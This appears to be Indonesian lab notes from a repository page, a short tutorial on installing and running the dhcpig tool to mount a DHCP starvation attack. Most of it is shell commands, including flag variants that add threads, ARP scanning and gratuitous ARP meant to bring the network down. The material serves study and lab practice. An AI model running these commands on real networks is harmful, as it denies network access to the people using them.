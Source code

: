 ### Langkah 1: Instalasi dhcpig
```bash
sudo apt update && sudo apt install dhcpig -y
```

### Langkah 2: Menjalankan dhcpig
```bash
sudo dhcpig eth0
```

### Opsi Tambahan untuk Menyesuaikan Serangan
```bash
# Serangan dasar DHCP starvation
sudo dhcpig eth0 

# Menggunakan beberapa thread untuk mempercepat serangan
sudo dhcpig -t 5 eth0
# Menyetel timer untuk timeout DHCP request
sudo dhcpig -z 3 eth0
# Menjalankan serangan dengan scan neighbor menggunakan ARP
sudo dhcpig -n eth0
# Menjalankan serangan dengan GARP untuk menggagalkan jaringan
sudo dhcpig -g eth0

# Menampilkan permintaan ARP
sudo dhcpig -a eth0
# Mendeteksi dan mencetak permintaan ICMP
sudo dhcpig -i eth0
# Menampilkan informasi sewa DHCP
sudo dhcpig -o eth0
```

maka seharunsya nanti akan banyak sekali request ke dhcp server \
![alt text](docs/images/image-29.png)
